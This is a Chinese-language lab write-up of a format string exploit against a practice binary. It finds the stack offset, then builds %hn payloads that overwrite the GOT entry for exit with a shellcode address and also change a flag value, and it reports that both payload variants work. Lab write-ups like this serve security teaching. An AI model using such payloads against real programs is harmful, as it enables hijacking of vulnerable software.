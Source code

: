 接下来的任务是将 exit 的地址改为 bffffbd7。即shellcode地址。

用试错法发现，输入的数据在第 11 个%x。也就是说，从第 11 个位 置开始，是我们输入数据的位置。 

```bash
got aaaa.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.
```

![image-20220321112708625](FormatStringShellcode/image-20220321112708625.png)

> 将0x0804a010分成两个连续的 2 字节内存位置：0x0804a010和0x0804a012。
>
> 将0xbfff存储到0x0804a012中，0xfbd7存储到0x0804a010中

现将 flag 的地址送入栈中，对应第 11 个%x，而其 flag 的值由步骤 2 可知其对应第 1 个%x，插入四个字节（字符串“@@@@”），再将 exit 函数的高位地址（0x0804a012）送入栈中，对应第 13 个%x，插 入四个字节（字符串“@@@@”），最后将 exit 函数的低位地址（0x0804a010）送入栈中，对应第 15 个%x。

由于前面已经输出了 20 个字符，所以 6666-20=6646，用`%.6646x%1\$n` 修改 flag 的值。

49151 （0xbfff）-6666  =42485，所以`%.42485x%13\$hn` 修改 exit 函数的高 位地址。

64471（0xfbd7）-49151=15320，所以用`%.15320x%15\$hn` 修 改 exit 函数的低位地址。

![image-20220321120343092](FormatStringShellcode/image-20220321120343092.png)

```bash
got $(printf "\x24\xa0\x04\x08@@@@\x12\xa0\x04\x08@@@@\x10\xa0\x04\x08")%.6646x%1\$n%.42485x%13\$hn%.15320x%15\$hn

or

got $(printf "\x24\xa0\x04\x08@@@@\x12\xa0\x04\x08@@@@\x10\xa0\x04\x08")%20x%20x%20x%20x%20x%20x%20x%20x%20x%6466x%n%42485x%hn%15320x%hn
```

攻击均能成功

![image-20220321114747240](FormatStringShellcode/image-20220321114747240.png)



![image-20220321121210597](FormatStringShellcode/image-20220321121210597.png)